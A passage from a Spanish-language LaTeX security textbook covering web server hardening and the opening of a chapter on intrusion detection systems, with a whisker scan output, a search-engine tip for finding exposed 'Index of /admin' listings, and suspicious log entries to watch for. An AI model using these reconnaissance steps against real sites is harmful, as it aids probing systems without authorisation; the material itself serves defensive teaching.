muy pocas ten\'{\i}an representaci\'on en la red) ten\'{\i}a que agenciarselas
para obtener primero informaci\'on de la misma y despu\'es buscar errores de
configuraci\'on m\'as o menos comunes de sus sistemas (o esperar al pr\'oximo
{\it bug} de {\tt sendmail}), hoy en d\'{\i}a le basta con teclear el nombre
de su objetivo en un navegador y a\~nadir la coletilla {\tt `.com'} detr\'as 
del mismo para contactar con al menos una de sus m\'aquinas: su servidor {\it
web}.\\
\\Los ataques a las p\'aginas {\it web} de una organizaci\'on son casi siempre
los m\'as `vistosos' que la misma puede sufrir: en cuesti\'on de minutos piratas
de todo el mundo se enteran de cualquier problema en la p\'agina {\it web}
principal de una empresa m\'as o menos grande pueda estar sufriendo, y si se
trata de una modificaci\'on de la misma incluso existen recopilatorios de 
p\'aginas {\it `hackeadas'}. Por supuesto, la noticia de la modificaci\'on 
salta inmediatamente a los medios, que gracias a ella pueden rellenar alguna
cabecera sensacionalista sobre `los piratas de la red', y as\'{\i} se consigue
que la imagen de la empresa atacada caiga notablemente y la del grupo de piratas
suba entre la comunidad {\it 'underground'} nacional o internacional.\\
\\La mayor parte de estos ataques tiene \'exito gracias a una configuraci\'on
incorrecta del servidor o a errores de dise\~no del mismo: si se trata de
grandes empresas, los servidores {\it web} suelen ser bastante complejos (alta
disponiblidad, balanceo de carga, sistemas propietarios de actualizaci\'on de
contenidos\ldots) y dif\'{\i}ciles de administrar correctamente, mientras que
si la empresa es peque\~na es muy posible que haya elegido un servidor {\it 
web} simple en su instalaci\'on y administraci\'on pero en el cual es casi 
(>casi?) imposible garantizar una m\'{\i}nima seguridad: s\'{\i}, hablamos de 
{\it Microsoft Internet Information Server}, un sistema que reconocidos expertos
en seguridad han recomendado p\'ublicamente {\bf no utilizar} en entornos 
serios. Sea por el motivo que sea, la cuesti\'on es que cada d\'{\i}a es m\'as 
sencillo para un pirata ejecutar \'ordenes de forma remota en una m\'aquina, o 
al menos modificar contenidos de forma no autorizada, gracias a los servidores 
{\it web} que un sistema pueda albergar.\\
\\Cualquier analizador de vulnerabilidades que podamos ejecutar contra nuestros
sistemas ({\sc nessus}, {\it ISS Security Scanner}, {\it NAI CyberCop 
Scanner}\ldots) es capaz de revelar informaci\'on que nos va a resultar \'util
a la hora de reforzar la seguridad de nuestros servidores {\it web}; incluso
existen analizadores que est\'an dise\~nados para auditar \'unicamente este
servicio, como {\tt whisker}. Ejecutando este \'ultimo contra una m\'aquina
podemos obtener resultados similares a los siguientes:
\begin{quote}
\begin{verbatim}
anita:~/security/whisker$ ./whisker.pl -h luisa
-- whisker / v1.4.0 / rain forest puppy / www.wiretrip.net --

= - = - = - = - = - =
= Host: luisa
= Server: Apache/1.3.19 (Unix) PHP/4.0.4pl1 mod_ssl/2.8.2 OpenSSL/0.9.5a

+ 200 OK: HEAD /docs/
+ 200 OK: HEAD /cgi-bin/Count.cgi
+ 200 OK: HEAD /cgi-bin/textcounter.pl
+ 200 OK: HEAD /ftp/
+ 200 OK: HEAD /guestbook/
+ 200 OK: HEAD /usage/

anita:~/security/whisker$ 
\end{verbatim}
\end{quote}
Podemos ver que el servidor nos proporciona excesiva informaci\'on sobre su
configuraci\'on (versi\'on, m\'odulos, soporte SSL\ldots), y que la herramienta
ha obtenido algunos archivos y directorios que pueden resultar interesantes
para un atacante: en el caso de los {\it CGI} no tiene m\'as que acercarse a 
alguna base de datos de vulnerabilidades (especialmente recomendables son {\tt\\
http://www.securityfocus.com/} o {\tt http://icat.nist.gov/}) e introducir en
el buscador correspondiente el nombre del archivo para obtener informaci\'on
sobre los posibles problemas de seguridad que pueda presentar. El caso de los
directorios es algo diferente, pero t\'{\i}picamente se suele tratar de nombres
habituales en los servidores que contienen informaci\'on que tambi\'en puede
resultarle \'util a un potencial atacante.\\
\\>C\'omo evitar estos problemas de seguridad de los que estamos hablando? Una
medida elemental es eliminar del servidor cualquier directorio o {\it CGI} de
ejemplo que se instale por defecto; aunque generalmente los directorios 
(documentaci\'on, ejemplos\ldots) no son especialmente cr\'{\i}ticos, el caso 
de los {\it CGIs} es bastante alarmante: muchos servidores incorporan programas
que no son ni siquiera necesarios para el correcto funcionamiento del {\it 
software}, y que en ciertos casos -- demasiados -- abren enormes agujeros de
seguridad, como el acceso al c\'odigo fuente de algunos archivos, la lectura de
ficheros fuera del {\tt DocumentRoot}, o incluso la ejecuci\'on remota de
comandos bajo la identidad del usuario con que se ejecuta el demonio servidor.\\
\\Otra medida de seguridad b\'asica es deshabilitar el {\it Directory Indexing}
que por defecto muchos servidores incorporan: la capacidad de obtener el
listado de un directorio cuando no existe un fichero {\tt index.html} o similar 
en el mismo; se trata de una medida extremadamente \'util y sobre todo sencilla
de implantar, ya que en muchos casos un simple {\tt `chmod -r'} sobre el 
directorio en cuesti\'on es suficiente para evitar este problema. A primera 
vista esta medida de protecci\'on nos puede resultar curiosa: a fin de cuentas,
{\it a priori} todo lo que haya bajo el {\it Document Root} del servidor ha de
ser p\'ublico, ya que para eso se ubica ah\'{\i}. Evidentemente la teor\'{\i}a
es una cosa y la pr\'actica otra muy diferente: entre los ficheros de cualquier
servidor no es extra\~no encontrar desde archivos de {\it log} -- por ejemplo,
del cliente {\sc ftp} que los usuarios suelen usar para actualizar remotamente
sus p\'aginas, como {\sc ws$\_$ftp.log} -- hasta paquetes {\sc tar} con el
contenido de subdirectorios completos. Por supuesto, la mejor defensa contra
estos ataques es evitar de alguna forma la presencia de estos archivos bajo el 
{\it Document Root}, pero en cualquier caso esto no es siempre posible, y si un 
atacante sabe de su existencia 
puede descargarlos, obteniendo en muchos casos informaci\'on realmente \'util
para atacar al servidor (como el c\'odigo de ficheros {\sc jsp}, {\sc php}, {\sc
asp}\ldots o simplemente rutas absolutas en la m\'aquina), y una excelente
forma de saber que uno de estos ficheros est\'a ah\'{\i} es justamente el {\it
Directory Indexing}; por si esto no queda del todo claro, no tenemos m\'as que
ir a un buscador cualquiera y buscar la cadena {\tt `Index of /admin'}, por 
poner un ejemplo sencillo, para hacernos una idea de la peligrosidad de este 
error de configuraci\'on.\\
\\Adem\'as, en cualquier servidor {\it web} es muy importante el usuario bajo
cuya identidad se ejecuta el demonio {\tt httpd}: ese usuario no debe ser {\bf
nunca} el {\tt root} del sistema (evidente), pero tampoco un usuario gen\'erico
como {\tt nobody}; se ha de tratar siempre de un usuario dedicado y sin acceso
real al sistema. Por supuesto, las p\'aginas {\sc html} (los ficheros planos,
para entendernos) {\bf nunca} deben ser de su propiedad, y mucho menos ese 
usuario ha de tener permiso de escritura sobre los mismos: con un acceso de 
lectura (y ejecuci\'on, en caso de {\it CGIs}) es m\'as que suficiente en la
mayor\'{\i}a de los casos. Hemos de tener en cuenta que si el usuario que 
ejecuta el servidor puede escribir en las p\'aginas {\it web}, y un pirata
consigue -- a trav\'es de cualquier tipo de error (configuraci\'on, dise\~no del
demonio\ldots) -- ejecutar \'ordenes bajo la identidad de dicho usuario, podr\'a
modificar las p\'aginas {\it web} sin ning\'un problema (que no olvidemos, es
lo que perseguir\'a la mayor\'{\i}a de atacantes de nuestro servidor {\it 
web}).\\
\\Igual de importante que evitar estos problemas es detectar cuando alguien
trata de aprovecharlos intentando romper la seguridad de nuestros servidores; 
para conseguirlo no tenemos m\'as que aplicar las t\'ecnicas de detecci\'on de 
intrusos que veremos en el cap\'{\i}tulo siguiente. Una caracter\'{\i}stica
importante de los patrones de detecci\'on de ataques v\'{\i}a {\it web} es que
no suelen generar muchos falsos positivos, por lo que la configuraci\'on de la
base de datos inicial es r\'apida y sencilla, al menos en comparaci\'on con la
detecci\'on de escaneos de puertos o la de tramas con alguna caracter\'{\i}stica
especial en su cabecera.

\cleardoublepage
\chapter{Sistemas de detecci\'on de intrusos}
\section{Introducci\'on}
A pesar de que un enfoque cl\'asico de la seguridad de un sistema inform\'atico
siempre define como principal defensa del mismo sus controles de acceso (desde
una pol\'{\i}tica implantada en un cortafuegos hasta unas listas de control de 
acceso en un {\it router} o en el propio sistema de ficheros de una m\'aquina),
esta visi\'on es extremadamente simplista si no tenemos en cuenta que en muchos
casos esos controles no pueden protegernos ante un ataque (\cite{kn:lun90}). 
Por poner un ejemplo sencillo, pensemos en un {\it firewall} donde hemos
implantado una pol\'{\i}tica que deje acceder al puerto 80 de nuestros 
servidores {\it web} desde cualquier m\'aquina de Internet; ese cortafuegos
s\'olo comprobar\'a si el puerto destino de una trama es el que hemos decidido
para el servicio {\sc http}, pero seguramente no tendr\'a en cuenta si ese
tr\'afico representa o no un ataque o una violaci\'on de nuestra pol\'{\i}tica
de seguridad: por ejemplo, no detendr\'a a un pirata que trate de acceder al
archivo de contrase\~nas de una m\'aquina aprovechando un {\it bug} del servidor
{\it web}. Desde un pirata inform\'atico externo a nuestra organizaci\'on a un 
usuario autorizado que intenta obtener privilegios que no le corresponden en un 
sistema, nuestro entorno de trabajo no va a estar nunca a salvo de 
intrusiones.\\
\\Llamaremos {\bf intrusi\'on} a un conjunto de acciones que intentan 
comprometer la integridad, confidencialidad o disponibilidad de un recurso 
(\cite{kn:hea90}); analizando esta definici\'on, podemos darnos cuenta de que
una intrusi\'on no tiene por qu\'e consistir en un acceso no autorizado a una 
m\'aquina: tambi\'en puede ser una negaci\'on de servicio. A los sistemas 
utilizados para detectar las intrusiones o los intentos de intrusi\'on
se les denomina {\bf sistemas de detecci\'on de intrusiones} ({\it Intrusion 
Detection Systems}, IDS) o, m\'as habitualmente -- y aunque no sea la 
traducci\'on literal -- {\bf sistemas de detecci\'on de intrusos}; cualquier 
mecanismo de seguridad con este prop\'osito puede ser considerado un IDS, pero
generalmente s\'olo se aplica esta denominaci\'on a los sistemas autom\'aticos
({\it software} o {\it hardware}): es decir, aunque un guardia de seguridad 
que vigila en la puerta de la sala de operaciones pueda considerarse en 
principio como un sistema de detecci\'on de intrusos, como veremos a 
continuaci\'on lo habitual (y l\'ogico) es que a la hora de hablar de IDSes no
se contemplen estos casos.\\
\\Una de las primeras cosas que deber\'{\i}amos plantearnos a la hora de hablar
de IDSes es si realmente necesitamos uno de ellos en nuestro entorno de trabajo;
a fin de cuentas, debemos tener ya un sistema de protecci\'on perimetral basado
en cortafuegos, y por si nuestro {\it firewall} fallara, cada sistema 
habr\'{\i}a de estar configurado de una manera correcta, de forma que incluso 
sin cortafuegos cualquier m\'aquina pudiera seguirse considerando relativamente 
segura. La
respuesta es, sin duda, {\bf s\'{\i}}; debemos esperar que en cualquier momento
alguien consiga romper la seguridad de nuestro entorno inform\'atico, y por 
tanto hemos de ser capaces de detectar ese problema tan pronto como sea posible
(incluso antes de que se produzca, cuando el potencial atacante se limite a
probar suerte contra nuestras m\'aquinas). Ning\'un sistema inform\'atico puede
considerarse completamente seguro, pero incluso aunque nadie consiga 
violar nuestras pol\'{\i}ticas de seguridad, los sistemas de detecci\'on de 
intrusos se encargar\'an de mostrarnos todos los intentos de multitud 
de piratas para penetrar en nuestro entorno, no dej\'andonos caer en ninguna 
falsa sensaci\'on de seguridad: si somos conscientes de que a diario hay gente
que trata de romper nuestros sistemas, no caeremos en la tentaci\'on de pensar
que nuestras m\'aquinas est\'an seguras porque nadie sabe de su existencia o
porque no son interesantes para un pirata.\\
\\Los sistemas de detecci\'on de intrusos no son precisamente nuevos: el primer 
trabajo sobre esta materia (\cite{kn:and80}) data de 1980; no obstante, este 
es uno de los campos m\'as en auge desde hace ya unos a\~nos dentro de la 
seguridad inform\'atica. Y no es extra\~no: la capacidad para detectar y
responder ante los intentos de ataque contra nuestros sistemas es realmente
muy interesante. Durante estos veinte a\~nos, cientos de investigadores de
todo el mundo han desarrollado, con mayor o menor \'exito, sistemas de 
detecci\'on de todo tipo, desde simples procesadores de {\it logs} hasta 
complejos sistemas distribuidos, especialmente vigentes con el auge de las 
redes de computadores en los \'ultimos a\~nos; una excelente perspectiva 
hist\'orica de algunos de ellos puede encontrarse en \cite{kn:jay95} o 
\cite{kn:axe98b}.
\section{Clasificaci\'on de los IDSes}
Generalmente existen dos grandes enfoques a la hora de clasificar a los sistemas
de detecci\'on de intrusos: o bien en funci\'on de {\bf qu\'e} sistemas vigilan,
o bien en funci\'on de {\bf c\'omo} lo hacen.\\ 
\\Si elegimos la primera de estas aproximaciones tenemos dos grupos de sistemas
de detecci\'on de intrusos: los que analizan actividades de una \'unica 
m\'aquina en busca de posibles ataques, y los que lo hacen de una subred 
(generalmente, de un mismo dominio de colisi\'on) aunque se emplazen en uno 
s\'olo de los {\it hosts} de la misma. Esta \'ultima puntualizaci\'on es 
importante: un IDS que detecta actividades sospechosas en una red no tiene 
porqu\'e (y de hecho en la mayor parte de casos no suele ser as\'{\i}) ubicarse 
en todas las m\'aquinas de esa red.
\begin{itemize}
\item IDSes basados en red.\\
Un IDS basado en red monitoriza los paquetes que circulan por nuestra red en
busca de elementos que denoten un ataque contra alguno de los sistemas ubicados
en ella; el IDS puede situarse en cualquiera de los {\it hosts} o en un
elemento que analice todo el tr\'afico (como un HUB o un enrutador). Est\'e
donde est\'e, monitorizar\'a diversas m\'aquinas y no una sola: esta es la
principal diferencia con los sistemas de detecci\'on de intrusos basados en 
{\it host}.
\item IDSes basados en m\'aquina.\\
Mientras que los sistemas de detecci\'on de intrusos basados en red operan
bajo todo un dominio de colisi\'on, los basados en m\'aquina realizan su
funci\'on protegiendo un \'unico sistema; de una forma similar -- guardando las
distancias, por supuesto -- a como act\'ua un escudo antivirus residente en
MS-DOS, el IDS es un proceso que trabaja en {\it background} (o que despierta
peri\'odicamente) buscando patrones que puedan denotar un intento de intrusi\'on
y alertando o tomando las medidas oportunas en caso de que uno de estos 
intentos sea detectado.
\end{itemize}
Algunos autores (\cite{kn:gra00}) dividen el segundo grupo, el de los sistemas 
de detecci\'on de intrusos basados en m\'aquina, en tres subcategor\'{\i}as:
\begin{itemize}
\item Verificadores de integridad del sistema (SIV).\\
Un verificador de integridad no es m\'as que un mecanismo encargado de 
monitorizar archivos de una m\'aquina en busca de posibles modificaciones no
autorizadas, por norma general {\it backdoors} dejadas por un intruso (por
ejemplo, una entrada adicional en el fichero de contrase\~nas o un {\tt 
/bin/login} que permite el acceso ante cierto nombre de usuario no registrado).
El SIV m\'as conocido es sin duda Tripwire, comentado en este mismo trabajo;
la importancia de estos mecanismos es tal que en la actualidad algunos sistemas 
Unix integran `de serie' verificadores de integridad, como Solaris y su ASET 
({\it Automated Security Enhancement Tools}).
\item Monitores de registros (LFM).\\
Estos sistemas monitorizan los archivos de {\it log} generados por los programas
-- generalmente demonios de red -- de una m\'aquina en busca de patrones que
puedan indicar un ataque o una intrusi\'on. Un ejemplo de monitor puede ser
{\tt swatch}, pero m\'as habituales que \'el son los peque\~nos {\it 
shellscripts} que casi todos los administradores realizan para comprobar
peri\'odicamente sus archivos de {\it log} en busca de entradas sospechosas
(por ejemplo, conexiones rechazadas en varios puertos provenientes de un
determinado {\it host}, intentos de entrada remota como {\tt root}\ldots).
\item Sistemas de decepci\'on.\\
Los sistemas de decepci\'on o tarros de miel ({\it honeypots}), como {\it 
Deception Toolkit} (DTK), son mecanismos
encargados de simular servicios con problemas de seguridad de forma que un 
pirata piense que realmente el problema se puede aprovechar para acceder a un
sistema, cuando realmente se est\'a aprovechando para registrar todas sus
actividades. Se trata de un mecanismo \'util en muchas ocasiones -- por ejemplo,
para conseguir `entretener' al atacante mientras se tracea su conexi\'on --
pero que puede resultar peligroso: >qu\'e sucede si el propio sistema de 
decepci\'on tiene un {\it bug} que desconocemos, y el atacante lo aprovecha para
acceder realmente a nuestra m\'aquina?
\end{itemize}
Realmente esta divisi\'on queda algo pobre, ya que cada d\'{\i}a se avanza m\'as
en la construcci\'on de sistemas de detecci\'on de intrusos basados en {\it 
host} que no podr\'{\i}an englobarse en ninguna de las subcategor\'{\i}as 
anteriores.\\
\\La segunda gran clasificaci\'on de los IDSes se realiza en funci\'on de c\'omo
act\'uan estos sistemas; actualmente existen dos grandes t\'ecnicas de 
detecci\'on de intrusos (\cite{kn:sun96}): las basadas en la detecci\'on de 
anomal\'{\i}as ({\it anomaly detection}) y las basadas en la detecci\'on de 
usos indebidos del sistema ({\it misuse detection}). Aunque m\'as tarde 
hablaremos con mayor profundidad de cada uno de estos modelos, la idea b\'asica
de los mismos es la siguiente:
\begin{itemize}
\item Detecci\'on de anomal\'{\i}as.\\
La base del funcionamiento de estos sistemas es suponer que una intrusi\'on se
puede ver como una anomal\'{\i}a de nuestro sistema, por lo que si fu\'eramos
capaces de establecer un perfil del comportamiento habitual de los sistemas 
ser\'{\i}amos capaces de detectar las intrusiones por pura estad\'{\i}stica: 
probablemente una intrusi\'on ser\'{\i}a una desviaci\'on excesiva de la media 
de nuestro perfil de comportamiento.
\item Detecci\'on de usos indebidos.\\
El funcionamiento de los IDSes basados en la detecci\'on de usos indebidos 
presupone que podemos establecer patrones para los diferentes ataques conocidos
y algunas de sus variaciones; mientras que la detecci\'on de anomal\'{\i}as
conoce lo normal (en ocasiones se dice que tienen un `conocimiento positivo', 
{\it positive knowledge}) y detecta lo que no lo es, este esquema se limita a 
conocer lo anormal para poderlo detectar (conocimiento negativo, {\it negative
knowledge}).
\end{itemize}
Para ver m\'as claramente la diferencia entre ambos esquemas, imaginemos un 
sistema de detecci\'on basado en monitorizar las m\'aquinas origen desde las 
que un usuario sospechoso conecta a nuestro sistema: si se tratara de un modelo
basado en la detecci\'on de anomal\'{\i}as, seguramente mantendr\'{\i}a una
lista de las dos o tres direcciones m\'as utilizadas por el usuario 
leg\'{\i}timo, alertando al responsable de seguridad en caso de que el usuario
conecte desde otro lugar; por contra, si se tratara de un modelo basado en la
detecci\'on de usos indebidos, mantendr\'{\i}a una lista mucho m\'as amplia que
la anterior, pero formada por las direcciones desde las sabemos con una alta
probabilidad que ese usuario no va a conectar, de forma que si detectara un 
acceso desde una de esas m\'aquinas, entonces es cuando el sistema tomar\'{\i}a 
las acciones oportunas.\\
\\En muchos trabajos (\cite{kn:esc98}, \cite{kn:thu00}\ldots) aparece una 
tercera clasificaci\'on de los IDSes; se trata de la diferenciaci\'on entre los 
sistemas que trabajan peri\'odicamente (denominados `pasivos') y los que operan 
en tiempo real (activos). Nosotros no 
contemplaremos, aunque la citemos, esta clasificaci\'on, ya que es totalmente
minoritaria en comparaci\'on con las otras dos que hemos comentado. De
cualquier forma, la idea es muy simple: un IDS de tiempo real (los denominados
{\it Real--Time Intrusion Detection Systems}) trabaja cont\'{\i}nuamente en
busca de posibles ataques, mientras que los sistemas que se ejecutan a 
intervalos ({\it Vulnerability Scanners}) son analizadores de vulnerabilidades
que cualquier administrador ha de ejecutar regularmente (ya sea de forma 
manual o autom\'atica) contra sus sistemas para verificar que no presentan 
problemas de seguridad.
\section{Requisitos de un IDS}
Sin importar qu\'e sistemas vigile o su forma de trabajar, cualquier
sistema de detecci\'on de intrusos ha de cumplir algunas propiedades para
poder desarrollar su trabajo correctamente. En primer lugar, y quiz\'as como
caracter\'{\i}stica m\'as importante, el IDS ha de ejecutarse 
cont\'{\i}nuamente sin nadie que est\'e obligado a supervisarlo; 
independientemente de que al detectar un problema se informe a un operador o se 
lance una respuesta autom\'atica, el funcionamiento habitual no debe implicar 
interacci\'on con un humano. Podemos fijarnos en que esto parece algo evidente:
muy pocas empresas estar\'{\i}an dispuestas a contratar a una o varias personas
simplemente para analizar {\it logs} o controlar los patrones del tr\'afico de  
una red. Sin entrar a juzgar la superioridad de los humanos frente a las 
m\'aquinas (>puede un algoritmo determinar perfectamente si un uso del sistema 
est\'a correctamente autorizado?) o viceversa (>ser\'{\i}a capaz una persona de 
analizar en tiempo real todo el tr\'afico que llega a un servidor {\it web} 
mediano?), hemos de tener presente que los sistemas de detecci\'on son 
mecanismos automatizados que se instalan y configuran de forma que su 
trabajo habitual sea transparente a los operadores del entorno inform\'atico.\\
\\Otra propiedad, y tambi\'en como una caracter\'{\i}stica a tener siempre en
cuenta, es la {\bf aceptabilidad} o grado de aceptaci\'on del IDS; al igual que
suced\'{\i}a con cualquier modelo de autenticaci\'on, los mecanismos de
detecci\'on de intrusos han de ser aceptables para las personas que trabajan 
ha\-bi\-tual\-men\-te en el entorno. Por ejemplo, no ha de introducir una 
sobrecarga 
considerable en el sistema (si un IDS ralentiza demasiado una m\'aquina, 
simplemente no se utilizar\'a) ni generar una cantidad elevada de falsos 
positivos (detecci\'on de intrusiones que realmente no lo son) o de 
{\it logs}, ya que entonces llegar\'a un momento en que nadie se preocupe de 
comprobar las alertas emitidas por el detector. Por supuesto (y esto puede 
parecer una tonter\'{\i}a, pero es algo que se hace m\'as a menudo de lo que 
podamos imaginar), si para evitar problemas con las intrusiones simplemente 
apagamos el equipo o lo desconectamos de la red, tenemos un sistema bastante 
seguro\ldots pero inaceptable.\\
\\Una tercera caracter\'{\i}stica a evaluar a la hora de hablar de sistemas de
detecci\'on de intrusos es la {\bf adaptabilidad} del mismo a cambios en el 
entorno de trabajo. Como todos sabemos, ning\'un sistema inform\'atico puede
considerarse est\'atico: desde la aplicaci\'on m\'as peque\~na hasta el
propio {\it kernel} de Unix, pasando por supuesto por la forma de trabajar de
los usuarios (>qui\'en nos asegura que ese engorroso procedimiento desde una
`desfasada' l\'{\i}nea de \'ordenes ma\~nana no se realizar\'a desde una 
aplicaci\'on gr\'afica, que realmente hace el mismo trabajo pero que genera
unos patrones completamente diferentes en nuestro sistema?), todo cambia 
con una periodicidad m\'as o menos elevada. Si nuestros mecanismos de 
detecci\'on de intrusos no son capaces de adaptarse r\'apidamente a esos 
cambios, est\'an condenados al fracaso.\\
\\Todo IDS debe adem\'as presentar cierta tolerancia a fallos o capacidad de 
respuesta ante situaciones inesperadas; insistiendo en lo que coment\'abamos
antes sobre el car\'acter altamente din\'amico de un entorno inform\'atico, 
algunos -- o muchos -- de los cambios que se pueden producir en dicho entorno 
no son graduales sino bruscos, y un IDS ha de ser capaz de responder siempre
adecuadamente ante los mismos. Podemos contemplar, por ejemplo, un reinicio 
inesperado de varias m\'aquinas o un intento de 
enga\~no hacia el IDS; esto \'ultimo es especialmente cr\'{\i}tico: s\'olo 
hemos de pararnos a pensar que si un atacante consigue modificar el 
comportamiento del sistema de detecci\'on y el propio sistema no se da cuenta 
de ello, la intrusi\'on nunca ser\'a notificada, con los dos graves problemas
que eso implica: aparte de la intrusi\'on en s\'{\i}, la falsa sensaci\'on de
seguridad que produce un IDS que no genera ninguna alarma es un grave 
inconveniente de cara a lograr sistemas seguros.
\section{IDSes basados en m\'aquina}
Como antes hemos comentado, un sistema de detecci\'on de intrusos basado en
m\'aquina ({\it host--based IDS}) es un mecanismo que permite detectar ataques
o intrusiones contra la m\'aquina sobre la que se ejecuta.\\
\\Tradicionalmente, los modelos de detecci\'on basados en m\'aquina han 
consistido por una parte en la utilizaci\'on de herramientas autom\'aticas de
an\'alisis de {\it logs} generados por diferentes aplicaciones o por el propio 
{\it kernel} del sistema operativo, prestando siempre especial atenci\'on a los
registros relativos a demonios de red, como un servidor {\it web} o el propio
{\tt inetd}, y por otra -- quiz\'as no tan habitual como la anterior -- en el
uso de verificadores de integridad de determinados ficheros vitales para el
sistema, como el de contrase\~nas; no obstante, desde hace unos a\~nos un
tercer esquema de detecci\'on se est\'a implantando con cierta fuerza: se
trata de los sistemas de detecci\'on, {\it honeypots} o tarros de miel.\\
\\El an\'alisis de {\it logs} generados por el sistema (entendiendo como tales 
no s\'olo a los relativos al n\'ucleo, sino tambi\'en a aquellos de aplicaciones
nativas de cada Unix, como {\tt syslogd}) var\'{\i}a entre diferentes clones de 
Unix por una sencilla raz\'on: cada uno de ellos guarda la informaci\'on con
un cierto formato, y en determinados ficheros, aunque todos -- o casi todos --
sean capaces de registrar los mismos datos, que son aquellos que pueden ser 
indicativos de un ataque. La mayor parte de Unices son capaces de registrar con
una granularidad lo suficientemente fina casi todas las actividades que se
llevan a cabo en el sistema, en especial aquellas que pueden suponer -- aunque
sea remotamente -- una vulneraci\'on de su seguridad; sin embargo, el problema
radica en que pocos administradores se preocupan de revisar con un m\'{\i}nimo
de atenci\'on esos {\it logs}, por lo que muchos ataques contra la m\'aquina,
tanto externos como internos, y tanto fallidos como exitosos, pasan 
finalmente desapercibidos. Aqu\'{\i} es donde entran en juego las herramientas
autom\'aticas de an\'alisis, como {\tt swatch} o {\tt logcheck}; a grandes 
rasgos, realizan la misma actividad que podr\'{\i}a ejecutar un {\it 
shellscript} convenientemente planificado que incluyera entre sus l\'{\i}neas
algunos {\tt grep} de registros sospechosos en los archivos de {\it log}.\\
\\>A qu\'e entradas de estos ficheros debemos estar atentos? Evidentemente, esto
depende de cada sistema y de lo que sea `normal' en \'el, aunque suelen existir
registros que en cualquier m\'aquina denotan una actividad cuanto menos 
sospechosa. Esto incluye ejecuciones fallidas o exitosas de la orden {\tt su},
peticiones no habituales al servicio {\sc smtp} (como {\tt vrfy} o {\tt expn}),
conexiones a diferentes puertos rechazadas por {\it TCP Wrappers}, intentos de
acceso remotos como superusuario, etc; si en la propia m\'aquina tenemos 
instalado un cortafuegos independiente del corporativo, o cualquier otro {\it
software} de seguridad -- uno que quiz\'as es especialmente recomendable es 
{\it PortSentry} --, tambi\'en conviene estar atentos a los {\it logs} 
generados por los mismos, que habitualmente se registran en los ficheros 
normales de auditor\'{\i}a del sistema ({\tt syslog}, {\tt messages}\ldots) y
que suelen contener informaci\'on que con una probabilidad elevada denotan un
ataque real.\\
\\Por otra parte, la verificaci\'on de integridad de archivos se puede realizar 
a diferentes
niveles, cada uno de los cuales ofrece un mayor o menor grado de seguridad. Por
ejemplo, un administrador puede programar y planificar un sencillo {\it 
shellscript} para que se ejecute peri\'odicamente y compruebe el propietario y
el tama\~no de ciertos ficheros como {\tt /etc/passwd} o {\tt /etc/shadow}; 
evidentemente, este esquema es extremadamente d\'ebil, ya que si un usuario se
limita a cambiar en el archivo correspondiente su UID de 100 a 000, este modelo
no descubrir\'{\i}a el ataque a pesar de su gravedad. Por tanto, parece obvio
que se necesita un esquema de detecci\'on mucho m\'as robusto, que compruebe 
aparte de la integridad de la informaci\'on registrada en el inodo asociado a
cada fichero (fecha de \'ultima modificaci\'on, propietario, grupo 
propietario\ldots) la integridad de la informaci\'on contenida en dicho archivo;
y esto se consigue muy f\'acilmente utilizando funciones resumen sobre cada
uno de los ficheros a monitorizar, funciones capaces de generar un {\it hash}
\'unico para cada contenido de los archivos. De esta forma, cualquier 
modificaci\'on en su contenido generar\'a un resumen diferente, que al ser 
comparado con el original dar\'a la voz de alarma; esta es la forma de trabajar
de {\it Tripwire}, el m\'as conocido y utilizado de todos los verificadores de
integridad disponibles para entornos Unix.\\
\\Sea cual sea nuestro modelo de verificaci\'on, en cualquiera de ellos debemos
llevar a cabo inicialmente un paso com\'un: generar una base de datos de 
referencia contra la que posteriormente compararemos la informaci\'on de cada 
archivo. Por ejemplo, si nos limitamos a comprobar el tama\~no de ciertos 
ficheros debemos, nada m\'as configurar el sistema, registrar todos los nombres
y tama\~nos de los ficheros que deseemos, para despu\'es comparar la 
informaci\'on que peri\'odicamente registraremos en nuestra m\'aquina con la
que hemos almacenado en dicha base de datos; si existen diferencias, podemos
encontrarnos ante un indicio de ataque. Lo mismo suceder\'a si registramos 
funciones resumen: debemos generar un {\it hash} inicial de cada archivo contra
el que comparar despu\'es la informaci\'on obtenida en la m\'aquina. 
Independientemente de los contenidos que deseemos registrar en esa base de datos
inicial, siempre hemos de tener presente una cosa: si un pirata consigue 
modificarla de forma no autorizada, habr\'a burlado por completo a nuestro 
sistema de verificaci\'on. As\'{\i}, es {\bf vital} mantener su integridad;
incluso es recomendable utilizar medios de s\'olo lectura, como un CD-ROM, o
incluso unidades extra\'{\i}bles -- discos o disquetes -- que habitualmente no
estar\'an disponibles en el sistema, y s\'olo se utilizar\'an cuando tengamos
que comprobar la integridad de los archivos de la m\'aquina.\\
\\Por \'ultimo, aunque su utilizaci\'on no est\'e tan extendida como la de los
analizadores de {\it logs} o la de los verificadores de integridad, es necesario
hablar, dentro de la categor\'{\i}a de los sistemas de detecci\'on de intrusos
basados en m\'aquina, de los sistemas de decepci\'on o {\it honeypots}. 
B\'asicamente, estos `tarros de miel' son sistemas completos o parte de los
mismos (aplicaciones, servicios, subentornos\ldots) dise\~nados para recibir
ciertos tipos de ataques; cuando sufren uno, los {\it honeypots} detectan la
actividad hostil y aplican una estrategia de respuesta. Dicha estrategia puede
consistir desde un simple correo electr\'onico al responsable de la seguridad 
de la m\'aquina hasta un bloqueo autom\'atico de la direcci\'on atacante;
incluso muchos de los sistemas -- la mayor\'{\i}a -- son capaces de simular 
vulnerabilidades conocidas de forma que el atacante piense que ha tenido 
\'exito y prosiga con su actividad, mientras es monitorizado por el detector de
intrusos.\\
\\El concepto te\'orico que est\'a detr\'as de los tarros de miel es el 
denominado `conocimiento ne\-ga\-ti\-vo': proporcionar deliveradamente a un 
intruso 
informaci\'on falsa -- pero que \'el considerar\'a real -- de nuestros sistemas,
con diferentes fines: desde poder monitorizar durante m\'as tiempo sus 
actividades, hasta despistarlo, pasando por supuesto por la simple 
diversi\'on. Evidentemente, para lograr enga\~nar a un pirata medianamente
experimentado la simulaci\'on de vulnerabilidades ha de ser muy `real', 
dedicando a tal efecto incluso sistemas completos (denominados 'm\'aquinas de
sacrificio'), pero con atacantes de nivel medio o bajo dicho enga\~no es 
much\'{\i}simo m\'as sencillo: en muchos casos basta simular la existencia de 
un troyano como {\it BackOrifice} mediante {\it FakeBO} ({\tt 
http://cvs.linux.hr/fakebo/}) para que el pirata determine que realmente 
estamos infectados e intente utilizar ese camino en su ataque contra nuestro 
sistema.\\
\\Algunos sistemas de decepci\'on no simulan vulnerabilidades tal y como 
habitualmente se suele entender este concepto; dicho de otra forma, su objetivo
no es enga\~nar a un atacante durante mucho tiempo, proporcion\'andole un 
